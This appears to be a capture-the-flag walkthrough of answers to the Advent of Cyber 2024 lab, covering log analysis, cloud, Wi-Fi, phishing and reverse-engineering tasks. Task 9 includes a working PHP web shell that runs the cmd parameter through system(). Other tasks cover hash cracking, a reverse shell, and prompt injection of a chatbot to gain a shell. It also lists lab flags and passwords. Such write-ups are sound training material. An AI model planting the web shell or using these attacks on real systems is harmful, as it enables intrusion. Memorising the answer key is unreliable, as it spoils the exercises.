> # Advent of Cyber 2024

## Summary
- [Summary](#summary)
  - [Task 7 - OPSEC Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?](#task-7---opsec-day-1-maybe-soc-mas-music-he-thought-doesnt-come-from-a-store)
  - [Task 8 - Log analysis Day 2: One man's false positive is another man's potpourri.](#task-8---log-analysis-day-2-one-mans-false-positive-is-another-mans-potpourri)
  - [Task 9 - Log analysis Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.](#task-9---log-analysis-day-3-even-if-i-wanted-to-go-their-vulnerabilities-wouldnt-allow-it)
  - [Task 10 - Atomic Red Team Day 4: I’m all atomic inside!](#task-10---atomic-red-team-day-4-im-all-atomic-inside)
  - [Task 11 - XXE Day 5: SOC-mas XX-what-ee?](#task-11---xxe-day-5-soc-mas-xx-what-ee)
  - [Task 12 - Sandboxes Day 6: If I can't find a nice malware to use, I'm not going.](#task-12---sandboxes-day-6-if-i-cant-find-a-nice-malware-to-use-im-not-going)
  - [Task 13 - AWS log analysis Day 7: Oh, no. I'M SPEAKING IN CLOUDTRAIL!](#task-13---aws-log-analysis-day-7-oh-no-im-speaking-in-cloudtrail)
  - [Task 14 - Shellcodes Day 8: Shellcodes of the world, unite!](#task-14---shellcodes-day-8-shellcodes-of-the-world-unite)
  - [Task 15 - GRC Day 9: Nine o'clock, make GRC fun, tell no one.](#task-15---grc-day-9-nine-oclock-make-grc-fun-tell-no-one)
  - [Task 16 - Phishing Day 10: He had a brain full of macros, and had shells in his soul.](#task-16---phishing-day-10-he-had-a-brain-full-of-macros-and-had-shells-in-his-soul)
  - [Task 17 - Wi-Fi attacks Day 11: If you'd like to WPA, press the star key!](#task-17---wi-fi-attacks-day-11-if-youd-like-to-wpa-press-the-star-key)
  - [Task 18 - Web timing attacks Day 12: If I can’t steal their money, I’ll steal their joy!](#task-18---web-timing-attacks-day-12-if-i-cant-steal-their-money-ill-steal-their-joy)
  - [Task 19 - Websockets Day 13: It came without buffering! It came without lag!](#task-19---websockets-day-13-it-came-without-buffering-it-came-without-lag)
  - [Task 20 - Certificate mismanagement Day 14: Even if we're horribly mismanaged, there'll be no sad faces on SOC-mas!](#task-20---certificate-mismanagement-day-14-even-if-were-horribly-mismanaged-therell-be-no-sad-faces-on-soc-mas)
  - [Task 21 - Active Directory Day 15: Be it ever so heinous, there's no place like Domain Controller.](#task-21---active-directory-day-15-be-it-ever-so-heinous-theres-no-place-like-domain-controller)
  - [Task 22 - Azure Day 16: The Wareville’s Key Vault grew three sizes that day.](#task-22---azure-day-16-the-warevilles-key-vault-grew-three-sizes-that-day)
  - [Task 23 - Log analysis Day 17: He analyzed and analyzed till his analyzer was sore!](#task-23---log-analysis-day-17-he-analyzed-and-analyzed-till-his-analyzer-was-sore)
  - [Task 24 - Prompt injection Day 18: I could use a little AI interaction!](#task-24---prompt-injection-day-18-i-could-use-a-little-ai-interaction)
  - [Task 25 - Game hacking Day 19: I merely noticed that you’re improperly stored, my dear secret!](#task-25---game-hacking-day-19-i-merely-noticed-that-youre-improperly-stored-my-dear-secret)
  - [Task 26 - Traffic analysis Day 20: If you utter so much as one packet…](#task-26---traffic-analysis-day-20-if-you-utter-so-much-as-one-packet)
  - [Task 27 - Reverse engineering Day 21: HELP ME...I'm REVERSE ENGINEERING!](#task-27---reverse-engineering-day-21-help-meim-reverse-engineering)
  - [Task 28 - Kubernetes DFIR Day 22: It's because I'm kubed, isn't it?](#task-28---kubernetes-dfir-day-22-its-because-im-kubed-isnt-it)
  - [Task 29 - Hash cracking Day 23: You wanna know what happens to your hashes?](#task-29---hash-cracking-day-23-you-wanna-know-what-happens-to-your-hashes)
  - [Task 30 - Communication protocols Day 24: You can’t hurt SOC-mas, Mayor Malware!](#task-30---communication-protocols-day-24-you-cant-hurt-soc-mas-mayor-malware)

### Task 7 - OPSEC Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?
1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? <br>
    ```
    # exiftool song.mp3 
    ExifTool Version Number         : 11.88
    File Name                       : song.mp3
    Directory                       : .
    File Size                       : 4.4 MB
    File Modification Date/Time     : 2024:10:24 10:50:46+01:00
    File Access Date/Time           : 2024:12:02 14:48:56+00:00
    File Inode Change Date/Time     : 2024:12:02 14:48:32+00:00
    File Permissions                : rwxr-xr-x
    File Type                       : MP3
    File Type Extension             : mp3
    MIME Type                       : audio/mpeg
    MPEG Audio Version              : 1
    Audio Layer                     : 3
    Audio Bitrate                   : 192 kbps
    Sample Rate                     : 44100
    Channel Mode                    : Stereo
    MS Stereo                       : Off
    Intensity Stereo                : Off
    Copyright Flag                  : False
    Original Media                  : False
    Emphasis                        : None
    ID3 Size                        : 2176
    Artist                          : Tyler Ramsbey
    Album                           : Rap
    Title                           : Mount HackIt
    Encoded By                      : Mixcraft 10.5 Recording Studio Build 621
    Year                            : 2024
    Genre                           : Rock
    Track                           : 0/1
    Comment                         : 
    Date/Time Original              : 2024
    Duration                        : 0:03:11 (approx)
    ```
    **Answer:** Tyler Ramsbey

1. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?<br>
    <br>
    **Answer:** http://papash3ll.thm/data

1. Who is M.M? Maybe his Github profile page would provide clues?<br>
    From his profile [link](https://github.com/MM-WarevilleTHM/M.M).<br>
    <br>
    **Answer:** Mayor Malware

1. What is the number of commits on the GitHub repo where the issue was raised?<br>
    There is only one commit.<br>
    <br>
    **Answer:** 1

### Task 8 - Log analysis Day 2: One man's false positive is another man's potpourri.
1. What is the name of the account causing all the failed login attempts?<br>
    Filter `event.outcome=failure`.<br>
    <br>
    **Answer:** service_admin

1. How many failed logon attempts were observed?<br>
    Filter event.category to `authentication` and event.outcom to `failure`.<br>
    <br>
    **Answer:** 6791

1. What is the IP address of Glitch?<br>
    <br>
    **Answer:** 10.0.255.1

1. When did Glitch successfully logon to ADM-01? Format: MMM D, YYYY HH:MM:SS.SSS<br>
    Filter as the below image.<br>
    <br>
    **Answer:** Dec 1, 2024 08:54:39.000

1. What is the decoded command executed by Glitch to fix the systems of Wareville?<br>
    Decode the base64 string to get the plaintext.<br>
    ```shell
    echo SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA== | base64 -d
    Install-WindowsUpdate -AcceptAll -AutoReboot
    ```
    **Answer:** Install-WindowsUpdate -AcceptAll -AutoReboot

### Task 9 - Log analysis Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.
1. BLUE: Where was the web shell uploaded to?<br>
    Filter string `shell.php` you will see the path.<br>
    <br>
    **Answer:** /media/images/rooms/shell.php 

1. What IP address accessed the web shell?<br>
    Select `clientip`, you will see the IP has the most connections to webshell.<br>\
    <br>
    **Answer:** 10.11.83.34

1. What is the contents of the flag.txt?<br>
    Upload the webshell to the server through `room.php`.<br>
    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd'] . ' 2>&1');
        }
    ?>
    </pre>
    </body>
    </html>
    ```
    <br>
    Access the webshell and run command to get flag.txt.<br>
    <br>
    <br>
    **Answer:** THM{Gl1tch_Was_H3r3}

### Task 10 - Atomic Red Team Day 4: I’m all atomic inside!
1. What was the flag found in the .txt file that is found in the same directory as the PhishingAttachment.xslm artefact?<br>
    After runnuing Testcase 1, there will be a txt file in temp folder.<br>
    <br>
    **Answer:** THM{GlitchTestingForSpearphishing}

1. What ATT&CK technique ID would be our point of interest?<br>
    Because there is a powershell command was executed on the machine.<br>
    <br>
    **Answer:** T1059

1. What ATT&CK subtechnique ID focuses on the Windows Command Shell?<br>
    <br>
    **Answer:** T1059.003

1. What is the name of the Atomic Test to be simulated?<br>
    Run `Invoke-AtomicTest T1059.003 -ShowDetails` to get the name.<br>
    <br>
    **Answer:** Simulate BlackByte Ransomware Print Bombing

1. What is the name of the file used in the test?<br
    In the `Attack Commands`.<br>
    <br>
    **Answer:** Wareville_Ransomware.txt

1. What is the flag found from this Atomic Test?<br>
    Run the test with sub ID found in question 3.<br>
    <br>
    **Answer:** THM{R2xpdGNoIGlzIG5vdCB0aGUgZW5lbXk=}

### Task 11 - XXE Day 5: SOC-mas XX-what-ee?
1. What is the flag discovered after navigating through the wishes?<br>
    The flag is in wish_15.<br>
    <br>
    **Answer:** THM{Brut3f0rc1n6_mY_w4y}

1. What is the flag seen on the possible proof of sabotage?<br>
    <br>
    **Answer:** THM{m4y0r_m4lw4r3_b4ckd00rs}

### Task 12 - Sandboxes Day 6: If I can't find a nice malware to use, I'm not going.
1. What is the flag displayed in the popup window after the EDR detects the malware?<br>
    Run powershell before running the malware.<br>
    <br>
    **Answer:** THM{GlitchWasHere}

1. What is the flag found in the malstrings.txt document after running floss.exe, and opening the file in a text editor?<br>
    <br>
    **Answer:** THM{HiddenClue}

### Task 13 - AWS log analysis Day 7: Oh, no. I'M SPEAKING IN CLOUDTRAIL!
1. What is the other activity made by the user glitch aside from the ListObject action?<br>
    ```
    jq -r '["Event_Time", "Event_Name", "User_Name", "Bucket_Name", "Key", "Source_IP"],(.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares") | [.eventTime, .eventName, .userIdentity.userName // "N/A",.requestParameters.bucketName // "N/A", .requestParameters.key // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t
    ```
    <br>
    **Answer:** PutObject

1. What is the source IP related to the S3 bucket activities of the user glitch?<br>
    From the above image.<br>
    **Asnwer:** 53.94.201.69

1. Based on the eventSource field, what AWS service generates the ConsoleLogin event?<br>
    ```
    jq -r '["Event_Time", "Event_Source", "Event_Name", "User_Name", "Source_IP"],(.Records[] | select(.userIdentity.userName == "glitch") | [.eventTime, .eventSource, .eventName, .userIdentity.userName // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t -s $'\t'
    ```
    <br>
    **Answer:** signin.amazonaws.com

1. When did the anomalous user trigger the ConsoleLogin event?<br>
    From the above image.<br>
    **Answer:** 2024-11-28T15:21:54Z

1. What was the name of the user that was created by the mcskidy user?<br>
    ```
    jq '.Records[] |select(.eventSource=="iam.amazonaws.com" and .eventName== "CreateUser")' cloudtrail_log.json
    ```
    <br>
    **Answer:** glitch

1. What type of access was assigned to the anomalous user?<br>
    ```
    jq '.Records[] | select(.eventSource=="iam.amazonaws.com" and .eventName== "AttachUserPolicy")' cloudtrail_log.json
    ```
    <br>
    **Asnwer:** AdministratorAccess

1. Which IP does Mayor Malware typically use to log into AWS?<br>
    ```
    jq -r '["Event_Time", "Event_Source", "Event_Name", "User_Name", "Source_IP"], (.Records[] | select(.sourceIPAddress=="53.94.201.69") | [.eventTime, .eventSource, .eventName, .userIdentity.userName // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t -s $'\t'
    ```
    <br>
    **Answer:** 53.94.201.69

1. What is McSkidy's actual IP address?<br>
    ```
    jq -r '["Event_Time","Event_Source","Event_Name", "User_Name","User_Agent","Source_IP"],(.Records[] | select(.userIdentity.userName=="PLACEHOLDER") | [.eventTime, .eventSource, .eventName, .userIdentity.userName // "N/A",.userAgent // "N/A",.sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t -s $'\t'
    ```
    <br>
    **Answer:** 31.210.15.79

1. What is the bank account number owned by Mayor Malware?<br>
    <br>
    **Answer:** 2394 6912 7723 1294

### Task 14 - Shellcodes Day 8: Shellcodes of the world, unite!
1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.<br>
    Change the port from 1111 to 4444.<br>
    <br>
    **Answer:** AOC{GOT_MY_ACCESS_B@CK007}

### Task 15 - GRC Day 9: Nine o'clock, make GRC fun, tell no one.
1. What does GRC stand for?<br>
    **Answer:** Governance, Risk, and Compliance

1. What is the flag you receive after performing the risk assessment?<br>
    Complete the assessment to get the flag.<br>
    **Answer:** THM{R15K_M4N4G3D}

### Task 16 - Phishing Day 10: He had a brain full of macros, and had shells in his soul.
1. What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?<br>
    Follow step by step to get RCE from the remote machine.<br>
    **Answer:** THM{PHISHING_CHRISTMAS}

### Task 17 - Wi-Fi attacks Day 11: If you'd like to WPA, press the star key!
1. What is the BSSID of our wireless interface?<br>
    ```
    ~$ iw dev
    phy#2
            Interface wlan2
                    ifindex 5
                    wdev 0x200000001
                    addr 02:00:00:00:02:00
                    type managed
                    txpower 20.00 dBm
    ```
    **Answer:** 02:00:00:00:02:00

1. What is the SSID and BSSID of the access point? Format: SSID, BSSID<br>
    ```
    CH  6 ][ Elapsed: 24 s ][ 2024-12-12 15:24 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    02:00:00:00:00:00  -28 100      284        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP
    ```

    **Answer:** MalwareM_AP, 02:00:00:00:00:00

1. What is the BSSID of the wireless interface that is already connected to the access point?<br>
    ```
    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    02:00:00:00:00:00  02:00:00:00:01:00  -29    0 - 1      0        1
    ```
    **Answer:** 02:00:00:00:01:00

1. What is the PSK after performing the WPA cracking attack?<br>
    You will get the key after crack the capture file.<br>
    **Answer:** fluffy/champ24

### Task 18 - Web timing attacks Day 12: If I can’t steal their money, I’ll steal their joy!
1. What is the flag value after transferring over $2000 from Glitch's account?<br>
    After perform with step-by-step from the document, the amount of glitch less than 0.<br>
    <br>
    **Answer:** THM{WON_THE_RACE_007}

### Task 19 - Websockets Day 13: It came without buffering! It came without lag!
1. What is the value of Flag1?<br>
    Change the id from 5 to 8 to get the flag.<br>
    <br>
    **Answer:** THM{dude_where_is_my_car}

1. What is the value of Flag2?<br>
    Type a message and send it, capture and change id to 8.<br>
    <br>
    **Answer:** THM{my_name_is_malware._mayor_malware}

### Task 20 - Certificate mismanagement Day 14: Even if we're horribly mismanaged, there'll be no sad faces on SOC-mas!
1. What is the name of the CA that has signed the Gift Scheduler certificate?<br>
    View the detail of the certificate.<br>
    <br>
    **Answer:** THM

1. Look inside the POST requests in the HTTP history. What is the password for the snowballelf account?<br>
    Run the shell script and monitor in HTTP History.<br>
    <br>
    **Answer:** c4rrotn0s3

1. Use the credentials for any of the elves to authenticate to the Gift Scheduler website. What is the flag shown on the elves’ scheduling page?<br>
    Login to get the flag.<br>
    <br>
    **Answer:** THM{AoC-3lf0nth3Sh3lf}

1. What is the password for Marta May Ware’s account?<br>
    <br>
    **Answer:** H0llyJ0llySOCMAS!

1. What is the flag shown on the admin page?<br>
    User May Ware's account login to the admin dashboard.<br>
    <br>
    **Answer:** THM{AoC-h0wt0ru1nG1ftD4y}

### Task 21 - Active Directory Day 15: Be it ever so heinous, there's no place like Domain Controller.
1. On what day was Glitch_Malware last logged in?<br>
    Use `net user Glitch_Malware` to get the last logon time.<br>
    <br>
    **Answer:** 07/11/2024

1. What event ID shows the login of the Glitch_Malware user?<br>
    **Answer:** 4624

1. Read the PowerShell history of the Administrator account. What was the command that was used to enumerate Active Directory users?<br>
    Read the Powershell log file `"C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`.<br>

    **Answer:** Get-ADUser -Filter * -Properties MemberOf | Select-Object Name

1. Look in the PowerShell log file located in Application and Services Logs -> Windows PowerShell. What was Glitch_Malware's set password?<br>
    <br>
    **Answer:** SuperSecretP@ssw0rd!

1. Review the Group Policy Objects present on the machine. What is the name of the installed GPO?<br>
    <br>
    **Answer:** Malicious GPO - Glitch_Malware Persistence

### Task 22 - Azure Day 16: The Wareville’s Key Vault grew three sizes that day.
1. What is the password for backupware that was leaked?<br>
    ```bash
    $ az ad user list --filter "startsWith('wvusr-backupware', displayName)"
    [
        {
            "businessPhones": [],
            "displayName": "wvusr-backupware",
            "givenName": null,
            "id": "1db95432-0c46-45b8-b126-b633ae67e06c",
            "jobTitle": null,
            "mail": null,
            "mobilePhone": null,
            "officeLocation": "R3c0v3r_s3cr3ts!",
            "preferredLanguage": null,
            "surname": null,
            "userPrincipalName": "wvusr-backupware@aoc2024.onmicrosoft.com"
        }
    ]
    ```
    **Answer:** R3c0v3r_s3cr3ts!

1. What is the group ID of the Secret Recovery Group?<br>
    ```bash
    $ az ad group list
    [
    {
        "classification": null,
        "createdDateTime": "2024-10-13T23:10:55Z",
        "creationOptions": [],
        "deletedDateTime": null,
        "description": "Group for recovering Wareville's secrets",
        "displayName": "Secret Recovery Group",
        "expirationDateTime": null,
        "groupTypes": [],
        "id": "7d96660a-02e1-4112-9515-1762d0cb66b7",
        "isAssignableToRole": null,
        "mail": null,
        "mailEnabled": false,
        "mailNickname": "f315e3ef-c",
        "membershipRule": null,
        "membershipRuleProcessingState": null,
        "onPremisesDomainName": null,
        "onPremisesLastSyncDateTime": null,
        "onPremisesNetBiosName": null,
        "onPremisesProvisioningErrors": [],
        "onPremisesSamAccountName": null,
        "onPremisesSecurityIdentifier": null,
        "onPremisesSyncEnabled": null,
        "preferredDataLocation": null,
        "preferredLanguage": null,
        "proxyAddresses": [],
        "renewedDateTime": "2024-10-13T23:10:55Z",
        "resourceBehaviorOptions": [],
        "resourceProvisioningOptions": [],
        "securityEnabled": true,
        "securityIdentifier": "S-1-12-1-2107008522-1091699425-1645680021-3076967376",
        "serviceProvisioningErrors": [],
        "theme": null,
        "uniqueName": null,
        "visibility": "Private"
    }
    ]
    ```
    **Answer:** 7d96660a-02e1-4112-9515-1762d0cb66b7

1. What is the name of the vault secret?<br>
    ```bash
    $ az keyvault secret list --vault-name warevillesecrets
    [
    {
        "attributes": {
        "created": "2024-10-14T20:22:20+00:00",
        "enabled": true,
        "expires": null,
        "notBefore": null,
        "recoverableDays": 90,
        "recoveryLevel": "Recoverable+Purgeable",
        "updated": "2024-10-14T20:22:20+00:00"
        },
        "contentType": null,
        "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024",
        "managed": null,
        "name": "aoc2024",
        "tags": {}
    }
    ]
    ```
    **Answer:** aoc2024

1. What are the contents of the secret stored in the vault?<br>
    ```bash
    $ az keyvault secret show --vault-name warevillesecrets --name aoc2024
    {
    "attributes": {
        "created": "2024-10-14T20:22:20+00:00",
        "enabled": true,
        "expires": null,
        "notBefore": null,
        "recoverableDays": 90,
        "recoveryLevel": "Recoverable+Purgeable",
        "updated": "2024-10-14T20:22:20+00:00"
    },
    "contentType": null,
    "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024/7f6bf431a6a94165bbead372bca28ab4",
    "kid": null,
    "managed": null,
    "name": "aoc2024",
    "tags": {},
    "value": "WhereIsMyMind1999"
    }
    ```
    **Answer:** WhereIsMyMind1999

### Task 23 - Log analysis Day 17: He analyzed and analyzed till his analyzer was sore!
1. Extract all the events from the cctv_feed logs. How many logs were captured associated with the successful login?<br>
    Follow the instruction to get the result.<br>
    <br>
    **Answer:** 642

1. What is the Session_id associated with the attacker who deleted the recording?<br>
    <br>
    **Answer:** rij5uu4gt204q0d3eb7jj86okt

1. What is the name of the attacker found in the logs, who deleted the CCTV footage?<br>
    <br>
    **Answer:** mmalware

### Task 24 - Prompt injection Day 18: I could use a little AI interaction!
1. What is the technical term for a set of rules and instructions given to a chatbot?<br>
    > AI, especially chatbots, will be designed to follow the developer's instructions and rules (known as system prompts).

    **Answer:** system prompts

1. What query should we use if we wanted to get the "status" of the health service from the in-house API?<br>
    **Answer:** Use the health service with the query: status

1. After achieving a reverse shell, look around for a flag.txt. What is the value?<br>
    <br>
    **Answer:** THM{WareW1se_Br3ach3d}

### Task 25 - Game hacking Day 19: I merely noticed that you’re improperly stored, my dear secret!
1. What is the OTP flag?<br>
    Follow the instruction to get the OTP and the flag.<br>
    <br>
    **Answer:** THM{one_touch_password}

1. What is the billionaire item flag?<br>
    <br>
    **Answer:** THM{credit_card_undeclined}

1. What is the biometric flag?<br>
    <br>
    **Answer:** THM{dont_smash_your_keyboard}

### Task 26 - Traffic analysis Day 20: If you utter so much as one packet…
1. What was the first message the payload sent to Mayor Malware’s C2?<br>
    <br>
    **Answer:** I am in Mayor!

1. What was the IP address of the C2 server?<br>
    From the above image.<br>
    **Answer:** 10.10.123.224

1. What was the command sent by the C2 server to the target machine?<br>
    Go to Stream 2, the server send `whoami` command to the target machine.<br>
    <br>
    **Answer:** whoami

1. What was the filename of the critical file exfiltrated by the C2 server?<br>
    Go to Stream 3.<br>
    <br>
    **Answer:** credentials.txt

1. What secret message was sent back to the C2 in an encrypted format through beacons?<br>
    The encrypted message was encrypted with AES mode ECB.<br>
    <br>
    **Answer:** THM_Secret_101

### Task 27 - Reverse engineering Day 21: HELP ME...I'm REVERSE ENGINEERING!
1. What is the function name that downloads and executes files in the WarevilleApp.exe?<br>
    The given file .net, open in ILSpy.<br>
    <br>
    **Answer:** DownloadAndExecuteFile

1. Once you execute the WarevilleApp.exe, it downloads another binary to the Downloads folder. What is the name of the binary?<br>
    **Answer:** explorer.exe

1. What domain name is the one from where the file is downloaded after running WarevilleApp.exe?<br>
    **Answer:** mayorc2.thm

1. The stage 2 binary is executed automatically and creates a zip file comprising the victim's computer data; what is the name of the zip file?<br>
    Reverse the `explorer.exe` file with ILSpy.<br>
    <br>
    **Answer:** CollectedFiles.zip

1. What is the name of the C2 server where the stage 2 binary tries to upload files?<br>
    <br>
    **Answer:** anonymousc2.thm


### Task 28 - Kubernetes DFIR Day 22: It's because I'm kubed, isn't it?
1. What is the name of the webshell that was used by Mayor Malware?<br>
    <br>
    **Answer:** shelly.php

1. What file did Mayor Malware read from the pod?<br>
    **Answer:** db.php

1. What tool did Mayor Malware search for that could be used to create a remote connection from the pod?<br>
    **Answer:** nc

1. What IP connected to the docker registry that was unexpected?<br>
    **Answer:** 10.10.130.253

1. At what time is the first connection made from this IP to the docker registry?<br>
    **Answer:** 29/Oct/2024:10:06:33 +0000

1. At what time is the updated malicious image pushed to the registry?<br>
    **Answer:** 29/Oct/2024:12:34:28 +0000

1. What is the value stored in the "pull-creds" secret?<br>
    **Answer:** {“auths”:{“http://docker-registry.nicetown.loc:5000":{"username":"mr.nice","password":"Mr.N4ughty","auth":"bXIubmljZTpNci5ONHVnaHR5"}}}

### Task 29 - Hash cracking Day 23: You wanna know what happens to your hashes?
1. Crack the hash value stored in hash1.txt. What was the password?<br>
    ```shell
    $ john --format=raw-sha256 --rules=wordlist --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
    Warning: poor OpenMP scalability for this hash type, consider --fork=2
    Will run 2 OpenMP threads
    Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    Enabling duplicate candidate password suppressor
    0g 0:00:00:01 0.00% (ETA: 2025-01-10 05:44) 0g/s 0p/s 0c/s 0C/s
    fluffycat12      (?)     
    1g 0:00:00:16 DONE (2024-12-25 16:41) 0.06035g/s 2341Kp/s 2341Kc/s 2341KC/s markie182..cherrylee2
    Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
    Session completed.
    ```
    **Answer:** fluffycat12

1. Crack the hash value stored in hash1.txt. What was the password?
    ```shell
    $ john --rules=single --wordlist=wordlist.txt pdf.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
    Cost 1 (revision) is 3 for all loaded hashes
    Will run 2 OpenMP threads
    Note: Passwords longer than 10 [worst case UTF-8] to 32 [ASCII] rejected
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    Enabling duplicate candidate password suppressor
    M4y0rM41w4r3     (private.pdf)     
    1g 0:00:00:00 DONE (2024-12-25 16:41) 4.000g/s 4864p/s 4864c/s 4864C/s mayored..afluffy
    Use the "--show --format=PDF" options to display all of the cracked passwords reliably
    Session completed.
    ```
    Open the pdf file with the above password, you will see the flag.<br>
    **Answer:** THM{do_not_GET_CAUGHT}

### Task 30 - Communication protocols Day 24: You can’t hurt SOC-mas, Mayor Malware!
1. What is the flag?<br>
    Run the command `mosquitto_pub -h localhost -t "d2FyZXZpbGxl/Y2hyaXN0bWFzbGlnaHRz" -m "on"` to get the flag.<br>
    <br>    
    **Answer:** THM{Ligh75on-day54ved}
